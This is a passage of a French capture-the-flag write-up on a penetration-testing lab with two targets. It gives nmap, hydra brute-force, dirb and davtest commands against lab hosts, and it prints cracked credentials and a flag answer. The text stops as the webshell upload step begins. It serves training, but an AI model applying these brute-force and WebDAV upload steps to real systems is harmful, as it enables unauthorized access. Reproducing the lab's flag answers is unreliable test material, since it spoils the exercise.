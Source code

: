 # Host & Network Penetration Testing: System-Host Based Attacks CTF 1

## Vue d'ensemble du CTF
Ce CTF couvre les attaques basées sur les systèmes hôtes avec **4 flags** répartis sur **2 cibles** :
- **target1.ine.local** (Flags 1 & 2) - Exploitation WebDAV
- **target2.ine.local** (Flags 3 & 4) - Exploitation SMB

---

## 🎯 FLAG 1: Attaque par Brute-force HTTP

### **Question:** *"User 'bob' might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located."*

#### **Démarche:**
1. **Reconnaissance initiale**
   ```bash
   nmap -sC -sV target1.ine.local
   ```
   - Port 80 ouvert avec authentification HTTP (401 Unauthorized)

2. **Brute-force des credentials**
   ```bash
   hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get /
   ```
   - Découverte: `bob:password_123321`

3. **Exploration des répertoires**
   ```bash
   dirb http://target1.ine.local -u bob:password_123321
   ```
   - Découverte du répertoire `/webdav`

4. **Récupération du flag**
   - Navigation vers `http://target1.ine.local/webdav`
   - **Flag 1:** `4ccc8664b99f44158dd3e42c46ae39eb`

---

## 🎯 FLAG 2: Upload de Webshell WebDAV

### **Question:** *"Valuable files are often on the C: drive. Explore it thoroughly."*

#### **Démarche:**
1. **Test des capacités WebDAV**
   ```bash
   davtest -auth bob:password_123321 -url http://target1.ine.local/webdav
   ```
   - Extensions supportées: .asp, .txt, .shtml, .html
